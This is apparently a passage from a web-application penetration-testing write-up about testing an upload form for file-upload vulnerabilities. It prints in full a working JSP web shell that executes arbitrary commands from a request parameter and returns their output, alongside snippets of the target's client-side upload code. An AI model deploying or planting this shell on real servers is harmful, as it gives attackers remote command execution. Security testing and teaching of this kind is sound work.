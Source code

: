 ```html
||var form = document.getElementById("UploadForm");|
||form.action = '/upload';|
||form.submit();|
|||
|||
||}|
|||
|||
||</script>|

<snip>
```

- There is an upload form which the auditor can test for File Upload Vulnerabilities. Since this is a Java web application, the auditor will use a `.jsp` web shell that can be executed in the backend server.
```java
<%@ page
import="java.util.*,java.io.*"%>
<%
%>
<HTML>
<BODY>
<H3>JSP SHELL</H3>
<FORM METHOD="GET" NAME="myform"
ACTION="">
<INPUT TYPE="text" NAME="evil">
<INPUT TYPE="submit" VALUE="Pwn">
</FORM>
<PRE>
<%
if (request.getParameter("evil") != null) {
out.println("Command: " +
request.getParameter("evil") + "<BR>");
Process p =
Runtime.getRuntime().exec(request.getParameter("evil"));
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) {
out.println(disr);
disr = dis.readLine();
}
}
%>
</PRE>
</BODY>
</HTML>
```

- The auditor checks the client-side filtering.
```javascript

		function uploadDocFunction() {

			var fileAttached = document.getElementById('vpnConfigFile').files[0];

			if (typeof fileAttached === "undefined") {

				alert("Please attach a file");

			}

```